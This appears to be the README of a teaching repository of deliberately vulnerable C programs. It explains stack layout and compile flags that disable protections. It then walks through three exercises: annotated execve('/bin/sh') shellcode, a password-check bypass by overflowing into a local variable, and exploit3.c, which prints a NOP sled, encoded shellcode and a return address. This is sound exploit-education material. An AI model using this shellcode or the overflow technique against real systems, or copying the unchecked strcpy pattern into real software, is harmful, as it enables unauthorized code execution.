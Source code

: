 # overflow_with_joy

This is a collection of programs written in c that are vulnerable for buffer overflows and exploits.

## Background ##

The memory of a program is seperated in different parts, including text for the code, data, bss, heap and stack. The data segment is for initialized static and global variables, the bss section is for uninitilized static and global variables. The heap is for dynamic memory accessed with new() or malloc(), and on the stack contains local variables and some other information. When a function is executed, it uses the stack to store its variables, parameters for other functions to call, some information about the control flow and so on. For example, when a program enters a function, it has to save the address of the next instruction to execute when it is done with the function and wants to return, and this return address is saved on the stack.

![Stack](https://github.com/LauraWartschinski/overflow_with_joy/blob/master/img/stack.png)

Some vulnerabilities in code can make it possible to manipulate that stack, e.g. to overwrite the return address, which will cause the programm to jump to a different place in the memory and possibly execute instructions there. Many times, this happens because a buffer - a designated block of memory that stores some values of the same type - is not managed correctly, allowing for values to be written that exceed the capacity of the buffer and overwrite whatever comes next on the stack, possible until the return address (see image below). For a comprehensive introduction into the topic of buffer overflows and executing shell code on the stack, see [smashing the stack for fun and profit](http://www-inst.eecs.berkeley.edu/~cs161/fa08/papers/stack_smashing.pdf).


## Setup ##
To compile the files with the flags, execute
```./compile-all.sh```
All code is compiled with some flags that make it easier to execute exploits:  `-fno-stack-protector` to not include stack canaries etc., `-z execstack` to make the stack executable, and `-O0` to remove optimizations. All exploits are made to execute on a 64 bit architecture and are tested in Ubuntu 18.04. The full command is for example 
`gcc hackme1.c -o hackme1 -O0 -fno-stack-protector -z execstack -g`. This script also disables ASLR (stack randomization), which helps because the memory addresses will stay the same between two executions of the program. 

![makeshellcode script](https://github.com/LauraWartschinski/overflow_with_joy/blob/master/img/makeshellcode.png)

There is also a script `makeshellcode.sh`, which will automatically generate the bytes of assembly code for the instructions specified in `shellcode-creator.c`. It does so by starting the gdb and using its disass function to look at the bytes, to speed up the process of manual inspection. However, it will stop at the first `ret` instruction it encounters. As long as you don't use this, it's fine. Otherwise you might just need to figure out the instructions yourself. 


## Hackme 1 ##

To warm up, let's have a look at a program that was made to be exploited.

`hackme1.c`

```
int main(void)
{
    char shellcode[] = "[shellcode here]";
 
    (*(void (*)()) shellcode)();
     
    return 0;
}
```

This very simple program takes some shellcode and executes it. This is possible because the variable shellcode is casted to a function pointer of the type `void (*)()`, a function pointer for an unspecified number of parameters. Therefore, the shellcode is cast into a function and then calls it, essentially running the shellcode.

In `exploit1.c`, shellcode is inserted that will cause the program to set the registers correctly and then execute a syscall, which will start a new shell. The following assembly commands achieve this while also avoiding any null bytes. There are, however, many other ways to achieve the same goal. 

```
"jmp j2;" //short jump to avoid null bytes in the shellcode
"j1: jmp start;" //jump to the rest of the shellcode
"j2: call j1;" //put the address of the string /bin/sh on the stack
".ascii \"/bin/shX\";"
"start: pop %rdi;" //take the address of the string /bin/sh from the stack
"xor %rax, %rax;" //set RAX to zero
"movb %al, 7(%rdi);" //set a nullbyte after the /bin/sh in the written file
"mov $0x3b, %al;" //put the syscall number in rax, in this case execve
"xor %rsi,%rsi;" //RSI must be set to zero
"xor %rdx,%rdx;" //RDX must be set to zero    
"syscall;" //start the 
```



## Hackme 2 ##

In the next example, we are looking at a C program that was not made to be exploited, but contains a buffer overflow vulnerability. The program takes an input as argument and checks if that input is correct, displaying either "password correct" or "wrong password". Of course, it might execute some other functionality, but this is just a minimal example. The goal here is to get the program to execute the code for the correct password, without actually entering the correct password. If it crashes later, that's okay, since the goal was reached anyway. 

The programm can simply be executed with `./hackme2 mypassword`. This is the sourcecode: 

```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int check_password(char *password){
  int correct = 0;
  char password_buffer[16];
  
  strcpy(password_buffer, password);
  
  if (strcmp(password_buffer, "actualpw") == 0) {
    correct = 1;
  }
  
  return correct;
  
  
}


int main (int argc, char *argv[]) {
  if (argc < 2) {
		puts("Please enter your password as a command line parameter.");
  } else {
    if (check_password(argv[1])) {
      printf("Password correct.\n");
    } else {
      printf("Wrong password.\n");
    }
  }

  return 0;
  
}
``` 

In the check_password function, a buffer of length 16 is created to store the password. There is also a variable `int correct` that will contain 0 if the password is wrong, or 1 if the password was evaluated to be correct. This local variable is placed on the stack (here at location `rbp-8`, directly above the base pointer of the stack). At the end of the function, it is loaded into the register eax, which can be seen in the disassembled code of check_password at location +68. The main function then checks if eax is zero or not (with the `test %eax, %eax'` at position +54) and jumps to the different outputs depending on the result. When "actualpw" is passed to the program as paramter, the variable `correct` contains 00000001 and is there not zero, causing the program to display "oassword correct".

When the buffer in check_password gets filled with bytes, it grows in the direction of the variable `correct`. With a length of 16 bytes, it overwrites the variable to contain e.g. `0x4141414141414141`, which is also evaluated to be not zero, so the main function jumps into the "password correct" branch once more, even though the correct password was never entered. 

![exploit2](https://github.com/LauraWartschinski/overflow_with_joy/blob/master/img/exploit2.png)

The programm `exploit2` just produces the correct number of bytes as an output.

## Hackme 3 ##

`hackme3.c`

``` 
#include<stdio.h>
#include<string.h>
int main(int argc, char *argv[])
{
  char buf[256];
  if (argc < 2)
    puts("Please enter your name as a command line parameter.");
  else
  {
    strcpy(buf,argv[1]);
    printf("Input was: %s\n",buf);
    return 0;
  }
}
``` 

This program accepts a a parameter and then writes it out again. However, the length of the parameter is not checked, and if it exceeds the 256 byte buffer, an oveflow will occur. This makes it possible to overwrite the return address, causing the programm to jump up on the stack into the buffer, where shellcode has been placed, and this can then be executed to start another shell. The code in `exploit3.c` produces a string of bytes that serve exactly this function. Execute both with `./hackme3 $(./exploit3)`. 

```
#include <stdio.h>
#include <string.h>
  
char shellcode[] = "\xeb\x02\xeb\x0d\xe8\xf9\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68\x58\x5f\x48\x31\xc0\x88\x47\x07\xb0\x3b\x48\x31\xf6\x48\x31\xd2\x0f\x05\xaa\xaa\xaa\xaa\xaa\xaa\x08\xdd\xff\xff\xff\x7f";

int main()
{
  int i;
  for (i = 0; i < (256 - strlen(shellcode) + 8 + 6); i++)
  {
    printf("\x90");
  }
  printf("%s",shellcode);
  return 0;
}
```